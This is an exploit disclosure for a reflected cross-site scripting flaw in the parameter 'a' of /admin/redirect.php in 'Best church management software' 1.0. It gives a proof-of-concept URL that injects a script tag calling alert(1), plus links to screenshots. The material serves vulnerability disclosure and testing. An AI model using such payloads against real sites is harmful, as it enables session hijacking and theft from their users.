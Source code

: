 ### Exploit Title: Best church management software - xss
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./admin/redirect.php Parameter a has xss

### POC #1

```
http://localhost:8001/admin/redirect.php?a=%3Cscript%3Ealert(1)%3C/script%3E
```
### xss running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739240731354.jpg "Best church management software")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739240708154.jpg "Best church management software")
